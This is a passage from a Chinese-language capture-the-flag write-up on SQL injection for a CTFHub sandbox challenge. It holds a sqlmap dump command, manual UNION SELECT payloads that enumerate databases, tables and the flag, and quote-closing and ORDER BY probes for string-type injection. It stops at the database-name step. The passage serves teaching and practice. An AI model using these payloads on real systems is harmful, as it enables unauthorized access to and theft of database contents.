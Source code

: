 ```bash
# 查询flag表下flag名的内容数据
sqlmap --url=http://challenge-a84162d3fc05934d.sandbox.ctfhub.com:10080/?id=1 -T flag -C flag --dump
```

![](./img/sql3.png)


- 解法二: 手工注入

```bash
-1 union select 1,database()  # 查询数据库
-1 union select 1,version()   # 查询版本
-1 union select 1,group_concat(schema_name) from informations_schema.schemata # 查询所有数据库名称
-1 union select 1,(select table_name from information_schema.tables where table_schema='sqli' limit 0,1) # 查询第一个字段，之后limit依次增加即可，或者以下
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'
-1 union select 1,group_concat(flag) from sqli.flag # 查询flag
```

### 字符型注入

**常用注入语句**

字符型注入要考虑到``引号闭合``和``注释``。

1. 判断注入
```
# 以下语句均在URL输入，若直接POST输入需要把注释改为#
?id=1' and 1=1 --+ 返回正确
?id=1' and 1=2 --+ 返回错误
```

2. 猜字段
```
?id=1' order by 2 --+ 返回正确
?id=1' order by 3 --+ 返回错误
```
得出字段数为2

下面为测试空格字符代替情况 （可跳过）
```
?id=1' order by 2 -- - 返回正确
?id=1' order by 2 -- / 返回正确
```
3. 爆数据库名
